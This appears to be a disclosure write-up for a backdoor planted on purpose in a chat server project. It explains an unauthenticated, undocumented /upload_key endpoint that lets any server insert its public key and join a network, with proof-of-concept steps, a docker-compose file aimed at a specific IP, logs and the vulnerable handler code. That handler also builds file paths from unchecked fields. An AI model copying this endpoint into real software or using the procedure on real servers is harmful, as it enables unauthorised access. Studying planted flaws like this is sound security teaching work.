 ## Description

This backdoor allows any server to join any neighbourhood, regardless of whether they were allowed to or not.

## Technical Details

Servers employ an endpoint to upload public keys. This allows admins to quickly verify each other without needing to alert someone first. This endpoint is not documented, and can only be found through directory bursting, or already knowing it exists. The endpoint is not password protected, so anyone can browse to it and upload their public key.

Since a server connection is only 1 way, a server only needs to verify another server's public key in order to join the neighborhood. Essentially, this allows any server to join a neighborhood by maliciously uploading their public key without permission.

## Objectives

1. Broken Access Control: Allows unauthorized servers to join any neighborhood without proper permissions.
2. Cryptographic Failures: Exploits weak key management by accepting arbitrary public key uploads.
3. Insecure Design: Takes advantage of the system's lack of proper validation for new neighborhood members.
4. Security Misconfiguration: Utilizes an exposed, undocumented endpoint (/upload_key) to compromise the system.

## Exploitation Method (Proof of Concept)

1. Attacker identifies the `/upload_key` page through directory bursting, social engineering or some other threat vector.

- They note down the server's IP address and port `65.108.216.173:8766`

![Image 4.1](appendix/Image%204.1.png)

<p align="center"><em>Figure 4.1: Attacker has found the upload_key page on a victim's HTTP server</em></p>

2. Attacker initialises their server and sets the victim's server inside their `NEIGHBOUR_ADDRESSES` environment variable.

```yml
version: "3.8"
services:
  malicious_server:
    build:
      context: .
      dockerfile: ./server/Dockerfile
    container_name: malicious_server
    ports:
      - "8765:8765" # WebSocket port for clients
      - "8766:8766" # WebSocket port for servers
      - "8081:8081" # HTTP port for file transfers
    volumes:
      - malicious_client:/app/server/clients
      - malicious_files:/app/server/files
      - malicious_config:/app/server/config
      - victim_neighbours:/app/server/neighbours
    environment:
      - BIND_ADDRESS=0.0.0.0
      - CLIENT_WS_PORT=8765
      - SERVER_WS_PORT=8766
      - HTTP_PORT=8081
      - NEIGHBOUR_ADDRESSES=65.108.216.173:8766 # victim server
      - LOG_MESSAGES=True
      - EXTERNAL_ADDRESS=203.221.52.227
    networks:
      - olaf_network

volumes:
  malicious_client:
  malicious_files:
  malicious_config:
  victim_neighbours:

networks:
  olaf_network:
    driver: bridge
```

3. Attacker starts up their server for the first time. They note that they immediately disconnect from the victim server because their key hasn't been added yet!

```
[ 0 02:43:18 ted-bundy ~/Documents/OMesh ] $ docker compose -f malicious_server.yml up --build
...                                                                                                                                                                                                   0.0s
Attaching to malicious_server
malicious_server  | 2024-09-29 17:13:28,099 - __main__ - INFO - Generated new key pair and saved to config directory.
...
malicious_server  | 2024-09-29 17:13:44,802 - __main__ - INFO - Connected to server at 65.108.216.173:8766
malicious_server  | 2024-09-29 17:13:45,472 - __main__ - INFO - Disconnected from server 65.108.216.173.
```

4. The attacker makes a copy of their public key, and uploads it to the victim's server

![Image 4.2](appendix/Image%204.2.png)

<p align="center"><em>After uploading, the victim server will accept connections from the malicious server, without it's admin authorising it</em></p>

5. The malicious server attempts to connect again, this time sucessfully.

- The malicious server can now connect as if it was a verified neighbour and use other backdoors to do other malicious things; exfiltrate data, impersonate other clients, or control the other servers!

```
[ 0 02:52:33 jeffrey-dahmer ~/Documents/OMesh ] $ docker compose -f malicious_server.yml up --build
...
Attaching to malicious_server
malicious_server  | 2024-09-29 17:22:37,154 - __main__ - INFO - Loaded existing key pair from config directory.
...
malicious_server  | 2024-09-29 17:22:53,860 - __main__ - INFO - Connected to server at 65.108.216.173:8766
malicious_server  | 2024-09-29 17:22:54,198 - __main__ - INFO - Received message of type 'client_update'
malicious_server  | 2024-09-29 17:22:54,198 - __main__ - INFO - Updated client list from server 65.108.216.173.
```

<p align="center"><em>Figure 4.3: After sending a server hello to the victim's server, it receives back an updated client list meaning it has been verified!

## Detection Challenges

- No inherent 'backdoor' visible. Functionality for this code is actually used for real server operation and doesn't stand out as anything particularly malicious, just dangerous.
- Server endpoints are hidden and not documented. Malicious actors must use another tool to exploit this vulnerability.

## Code Snippet

```python
    async def start(self):
        # ... (code for starting the server)

        # key endpoints
        app.router.add_get('/pub', self.handle_get_public_key)
        app.router.add_get('/upload_key', self.handle_upload_key_page)
        app.router.add_post('/upload_key', self.handle_upload_key)


    async def handle_get_public_key(self, request):
        """
        Returns the server's public key as a PEM-formatted string.
        """
        public_pem = export_public_key(self.public_key).decode('utf-8')
        return web.Response(text=public_pem, content_type='text/plain')

    async def handle_upload_key(self, request):
        """
        Handles the uploaded public key file and saves it to the neighbours directory.
        """
        reader = await request.multipart()
        # Read address field
        field = await reader.next()
        if field.name != 'address':
            return web.Response(text="Missing 'address' field.", status=400)
        address = await field.text()

        # Read port field
        field = await reader.next()
        if field.name != 'port':
            return web.Response(text="Missing 'port' field.", status=400)
        port = await field.text()

        # Read file field
        field = await reader.next()
        if field.name != 'file':
            return web.Response(text="Missing 'file' field.", status=400)
        filename = field.filename
        if not filename.endswith('.pem'):
            return web.Response(text="Invalid file type. Only .pem files are accepted.", status=400)

        # Save the uploaded file
        key_filename = f"{address}_{port}_public_key.pem"
        key_filepath = os.path.join(NEIGHBOURS_DIR, key_filename)
        size = 0
        with open(key_filepath, 'wb') as f:
            while True:
                chunk = await field.read_chunk()
                if not chunk:
                    break
                size += len(chunk)
                if size > 10 * 1024:  # Limit file size to 10KB
                    return web.Response(text="File size exceeds limit.", status=413)
                f.write(chunk)

        # Reload the neighbour public keys
        self.neighbour_public_keys = self.load_neighbour_public_keys()

        return web.Response(text=f"Public key for {address}:{port} uploaded successfully.", status=200)

    async def handle_upload_key_page(self, request):
        """
        Serves an HTML page with a form to upload a public key file.
        """
        html = '''
        <html>
        <body>
            <h1>Upload Public Key</h1>
            <form action="/upload_key" method="post" enctype="multipart/form-data">
                Address: <input type="text" name="address" required><br>
                Port: <input type="text" name="port" required><br>
                Public Key File: <input type="file" name="file" accept=".pem" required><br>
                <input type="submit" value="Upload">
            </form>
        </body>
        </html>
        '''
        return web.Response(text=html, content_type='text/html')
```
